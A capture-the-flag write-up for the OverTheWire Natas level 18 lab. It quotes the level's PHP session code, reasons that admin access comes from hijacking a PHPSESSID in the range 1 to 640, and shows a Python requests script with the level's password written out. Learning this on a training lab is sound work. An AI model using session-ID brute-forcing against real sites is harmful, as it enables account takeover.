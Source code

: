 ```php
if(my_session_start()) {
    print_credentials();
    $showform = false;
} else {
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
    session_id(createID($_REQUEST["username"]));
    session_start();
    $_SESSION["admin"] = isValidAdminLogin();
    debug("New session started");
    $showform = false;
    print_credentials();
    }
}  
```

We have the following information here:

1. Session IDs range from 1 to 640

2. Logging with `admin` and `admin` as username and password won't work (see `isValidAdminLogin()`)

3. Session starts successfully if there is `PHPSESSID` in `$_COOKIE`

4. Credentials are printed if and only if `$_SESSION["admin"] ==1` (and there is no way to set this superglobal value from the client side).

Since we can't set `$_SESSION["admin"] ==1` from the client side, our only attack vector is to impersonate an already taken `PHPSESSID`. One of these would be the admin's. And since `PHPSESSID` is taken from cookies, we hijack the cookies.

Consider the following:

```py
auth_username = 'natas18'

auth_password = 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'

_payload = {'username':'admin', 'password':'admin'}

response = requests.get('http://natas18.natas.labs.overthewire.org/index.php', auth=HTTPBasicAuth(auth_username, auth_password))

response = requests.post('http://natas18.natas.labs.overthewire.org/index.php', auth=HTTPBasicAuth(auth_username, auth_password), data= _payload)

response = requests.get('http://natas18.natas.labs.overthewire.org/index.php', auth=HTTPBasicAuth(auth_username, auth_password))
```

The response obtained is:

```s
Please login ....

You are logged in as a regular user ...

Please login
```
